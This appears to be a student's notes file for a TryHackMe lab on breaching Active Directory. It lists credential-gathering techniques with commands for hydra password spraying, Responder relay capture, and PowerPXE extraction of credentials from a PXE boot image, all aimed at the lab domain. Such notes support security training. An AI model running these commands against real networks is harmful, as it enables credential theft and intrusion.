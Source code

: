 https://tryhackme.com/room/breachingad

## Getting AD credentials:
-   NTLM Authenticated Services
-   LDAP Bind Credentials
-   Authentication Relays
-   Microsoft Deployment Toolkit
-   Configuration Files

## OSINT and Phishing
OSINT: https://tryhackme.com/room/redteamrecon
Phishing: https://tryhackme.com/module/phishing

## NTLM Authenticated Services
hydra -L usernames.txt -p Changeme123 http-get://ntlmauth.za.tryhackme.com

## LDAP Bind Credentials (LDAP Pass-back Attack)
tricking service to autheticate to our ldap server(port 389)
https://www.digitalreplica.org/articles/openldap-for-ldap-plain-text-password-capture/

## Authentication Relays
sudo responder -I INTERFACE

## Microsoft Deployment Toolkit
PXE Boot Image Retrieval
```powershell
tftp -i IP GET "\tmp\BCDFILE" conf.bcd
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
tftp -i IP GET "IMAGE_LOCATION" pxeboot.wim
Get-FindCredentials -WimFile pxeboot.wim
```

## Configuration Files
https://github.com/GhostPack/Seatbelt